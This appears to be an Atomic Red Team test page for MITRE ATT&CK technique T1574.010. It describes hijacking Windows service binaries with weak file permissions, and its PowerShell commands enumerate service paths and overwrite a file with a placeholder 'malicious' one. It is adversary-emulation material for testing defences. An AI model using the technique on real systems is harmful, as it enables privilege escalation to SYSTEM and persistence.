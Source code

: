 # T1574.010 - Services File Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1574.010)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the binaries used by services. Adversaries may use flaws in the permissions of Windows services to replace the binary that is executed upon service start. These service processes may automatically execute specific binaries as part of their functionality or to perform other actions. If the permissions on the file system directory containing a target binary, or permissions on the binary itself are improperly set, then the target binary may be overwritten with another binary using user-level permissions and executed by the original process. If the original process and thread are running under a higher permissions level, then the replaced binary will also execute under higher-level permissions, which could include SYSTEM.

Adversaries may use this technique to replace legitimate binaries with malicious ones as a means of executing code at a higher permissions level. If the executing process is set to run at a specific time or during a certain event (e.g., system bootup) then this technique can also be used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - File System Permissions Weakness](#atomic-test-1---file-system-permissions-weakness)


<br/>

## Atomic Test #1 - File System Permissions Weakness
This test to show checking file system permissions weakness and which can lead to privilege escalation by replacing malicious file. Example; check weak file permission and then replace.
powershell -c "Get-WmiObject win32_service | select PathName"   (check service file location) and
copy /Y C:\temp\payload.exe C:\ProgramData\folder\Update\weakpermissionfile.exe   ( replace weak permission file with malicious file )

Upon execution, open the weak permission file at %temp%\T1574.010_weak_permission_file.txt and verify that it's contents read " T1574.010 Malicious file". To verify
the weak file permissions, open File Explorer to%temp%\T1574.010_weak_permission_file.exe then open Properties and Security to view the Full Control permission is enabled.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| malicious_file | File to replace weak permission file with | path | $env:TEMP&#92; T1574.010&#92; T1574.010_malicious_file.txt|
| weak_permission_file | check weak files permission | path | $env:TEMP&#92;T1574.010_weak_permission_file.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-WmiObject win32_service | select PathName
Copy-Item #{malicious_file} -Destination #{weak_permission_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item #{weak_permission_file} -Force -ErrorAction Ignore
Remove-Item -Recurse (Split-Path #{malicious_file}) -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: A file must exist on disk at specified location (#{weak_permission_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{weak_permission_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item #{weak_permission_file} -Force | Out-Null
Set-Content -Path #{weak_permission_file} -Value " T1574.010 Weak permission file"
```
##### Description: A file to replace the original weak_permission_file. In an attack this would be the malicious file gaining extra privileges
##### Check Prereq Commands:
```powershell
if (Test-Path #{malicious_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory -Path $env:TEMP\ T1574.010\ -Force | Out-Null
New-Item #{malicious_file} -Force | Out-Null
Set-Content -Path #{malicious_file} -Value " T1574.010 Malicious file"
```




<br/>

